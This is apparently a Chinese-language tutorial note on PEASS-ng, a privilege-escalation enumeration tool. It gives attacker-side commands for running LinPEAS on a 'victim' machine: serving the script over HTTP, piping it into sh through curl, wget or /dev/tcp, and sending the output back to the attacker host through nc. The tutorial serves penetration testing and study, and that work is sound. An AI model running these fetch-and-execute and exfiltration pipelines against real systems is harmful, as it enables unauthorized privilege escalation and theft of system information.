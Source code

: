PEASS-ng 是一款适用于 Windows 和 Linux/Unix* 和 MacOS 的权限提升工具。

项目地址：[https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

- 查看[book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)上的本地 Windows 权限提升检查表[](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) - Windows 本地权限提升脚本 (C#.exe 和 .bat)
- 查看[book.hacktricks.wiki](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)上的本地 Linux 权限提升检查表[](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Linux 本地权限提升脚本 (.sh)
	- linpeas_fat.sh：包含所有检查，甚至嵌入了 base64 的第三方应用程序。
	- linpeas.shlinux exploit suggester ：包含所有检查，但仅嵌入第三方应用程序。这是默认设置linpeas.sh。
	- linpeas_small.sh：仅包含最重要的检查，使其大小更小。

脚本获取
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250401-a1b119bc/linpeas.sh
```
最佳实践：
攻击机 会话1：
```bash
sudo python3 -m http.server 8080
```
攻击机 会话2
```bash
nc -lvnp 9002 | tee linpeas.out
```
靶机
```bash
curl 192.168.56.102:8080/linpeas.sh | sh | nc 192.168.56.102 9002
wget 192.168.56.102:8080/linpeas.sh | sh | nc 192.168.56.102 9002
```
其他用法：
```shell
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```
```shell
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
```shell
# Local network
sudo python3 -m http.server 80          #Host
curl 10.10.10.10/linpeas.sh | sh        #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
sudo python3 -m http.server 80          #Host
nc -lvnp 9002 | tee linpeas.out         #Host
curl 192.168.56.102:80/linpeas.sh | sh | nc 192.168.56.102 9002     #Victim
wget 192.168.56.102:80/linpeas.sh | sh | nc 192.168.56.102 9002     #Victim
```
参考文档：[全平台系统提权辅助工具 PEASS-ng](https://cloud.tencent.com/developer/article/2149150?areaSource=102001.7&traceId=YDjqiGBG8KLGQ9xVd7KXs)
